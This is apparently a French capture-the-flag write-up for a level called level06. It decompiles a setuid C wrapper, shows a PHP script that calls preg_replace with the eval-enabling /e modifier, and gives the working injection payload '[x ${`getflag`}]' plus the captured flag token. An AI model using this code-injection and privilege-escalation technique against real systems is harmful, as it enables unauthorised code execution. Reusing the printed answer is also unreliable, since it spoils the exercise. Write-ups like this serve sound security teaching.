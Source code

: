 # [level06]

### Observations

##### Je décompile le programme '~/level06':
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
	const char	**v3;
	char		*v4;
	char		*v5;
	__uid_t		v7;
	__gid_t		v8;
	char		**v9;
	char		*v10[11];

	v10[7] = (char *)&argc;
	v3 = argv;
	v9 = (char **)envp;
	v4 = strdup(&s);
	v5 = strdup(&s);
	if ( v3[1] )
	{
		free(v4);
		v4 = strdup(v3[1]);
		if ( v3[2] )
		{
			free(v5);
			v5 = strdup(v3[2]);
		}
	}
	v8 = getegid();
	v7 = geteuid();
	setresgid(v8, v8, v8);
	setresuid(v7, v7, v7);
	v10[2] = v4;
	v10[3] = v5;
	v10[0] = "/usr/bin/php";
	v10[1] = "/home/user/level06/level06.php";
	v10[4] = 0;
	execve("/usr/bin/php", v10, v9);
	return 0;
}
```

##### J'affiche le programme '~/level06.php':
```php
#!/usr/bin/php
<?php
function y($m)
{
	$m = preg_replace("/\./", " x ", $m);
	$m = preg_replace("/@/", " y", $m);
	return $m;
}
function x($y, $z)
{
	$a = file_get_contents($y);
	$a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
	$a = preg_replace("/\[/", "(", $a);
	$a = preg_replace("/\]/", ")", $a);
	return $a;
}
$r = x($argv[1], $argv[2]);
print $r;
?>
```

##### Détails des programmes:
```bash
-rwsr-x---+ 1 flag06  level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06  level06  356 Mar  5  2016 level06.php
```

##### Entrées du programme '~/level6'
```c
char *chemin_fichier
```

##### Fonctionnement:
Il y a deux programmes:
 1. Le premier est un programme c qui exécute un script php '~/level06.php' avec les droit de l'utilisateur 'flag06'.
 2. Le deuxieme applique un motif regex '/(\[x (.*)\])/e' qui transforme le contenue du fichier par le contenu du deuxieme argument après l'avoir évalué.

##### Conclusions:
La fonction de remplacement de motif regex preg_replace avec le parametre '/e' est connue pour avoir des failles. \
En effet le parametre permet d'exécuter du code php. \
Je peux donc exécuter du code shell librement.

### Résolution
Je créé un fichier qui contient mon injection de code, puis je passe le chemin d'acces de ce dernier au programme '~/level6'. \
Le contenue de la deuxieme couche de regex est evaluée en php car l'opérateur '/e' est utilisé. \
Le parseur php exécute ensuite 'getflag' car il est entouré par les caractéres '`'. \
J'exécute ensuite le programme.

#### commandes:
```bash
echo '[x ${`getflag`}]' >/tmp/script
./level06 /tmp/script
```

**token :** wiok45aaoguiboiki2tuin6ub